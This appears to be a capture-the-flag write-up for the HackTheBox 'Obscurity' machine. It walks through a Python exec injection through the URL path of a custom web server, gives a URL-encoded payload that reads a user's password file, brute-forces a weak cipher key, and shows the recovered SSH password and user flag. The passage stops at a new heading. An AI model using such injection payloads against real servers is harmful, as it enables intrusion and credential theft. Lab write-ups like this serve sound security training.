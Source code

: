 # [Obscurity](https://www.hackthebox.eu/home/machines/profile/219)
## IP : 10.10.10.168

## **Step 0** : Ports Scan

![Port Scan Result](images/port_scan.png)

* Website : http://10.10.10.168:8080/

## __Step 1__ : Hints from the [home page](http://10.10.10.168:8080/).

> Message to server devs: the current source code for the web server is in __SuperSecureServer.py__ in the secret development directory`

After some tests the server is fuzzable from the root. Any file or folder can be returned by the browser.

![FFUF Report](images/ffuf_report.png)

* Server code : http://10.10.10.168:8080/develop/SuperSecureServer.py

## __Step 2__ : Understanding the custom made server

From *hints/SuperSecureServer.py* :
```python
def serveDoc(self, path, docRoot):
    ...
    path = urllib.parse.unquote(path)
    ...
    exec(info.format(path)) # This is how you do string formatting, right?
    ...
    return {"body": data, "mime": mime, "status": status}
```
The `path` parameter coming from the URL. So it's possible to inject python code from url. We need to encode with `urllib.quote()` the code to send it to the http server:

> http://obscurity/{urlib_quoted_python_code}

Also, the code shows that through this function, only the **mime** var can be used to get info back.

## **Step 3** : Injection & Enumeration

With code used in *lab/inject.py* :

![injection_result](images/inject_report.png)

We see that we're **user=www-data(uid=33)**

* Time to see what's Robert has for us :

![Clues,clues,clues](images/inject_robert.png)

We can't read **user.txt** yet.
But it seems we can have hints on the next step with the other files.

```
$ python3 lab/inject.py "open('/home/robert/passwordreminder.txt','r').read()"
Payload : %27%3BMIMES%5B%27html%27%5D%3Dopen%28%27/home/robert/passwordreminder.txt%27%2C%27r%27%29.read%28%29%3Ba%3D%27
Â´ÃÃÃÃÃ ÃÃÃÃ©Â¯Â·Â¿k
````
* Weird encoding, got password from Chrome : 

![thank_you_chrome](images/chrome_password.png)

To summarize : 
* User : **robert**
* Password : **´ÑÈÌÉàÙÁÑé¯·¿k**

Let's try that : 
```
$ ssh robert@10.10.10.168
robert@10.10.10.168's password: 
Permission denied, please try again.
```

### Decrypting **Robert's password**

The file **SuperSecureCrypt.sh** shows us how Robert encrypted his password.
We can bruteforce the key used to encrypt with the script **lab/break.py** :

```
$ python3 break.py 
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovich
```
* The key used to encrypt is **alexandrovich**

```
echo "´ÑÈÌÉàÙÁÑé¯·¿k" > to_decrypt.txt
```

Then we decrypt it : 

![security...](images/password_decrypt.png)

Password : **SecThruObsFTW**

```
$ ssh robert@10.10.10.168
robert@obscure:~$ cat user.txt
e4493782066b55fe2755708736ada2d7
```

Owned user !

## BetterSSH, really ?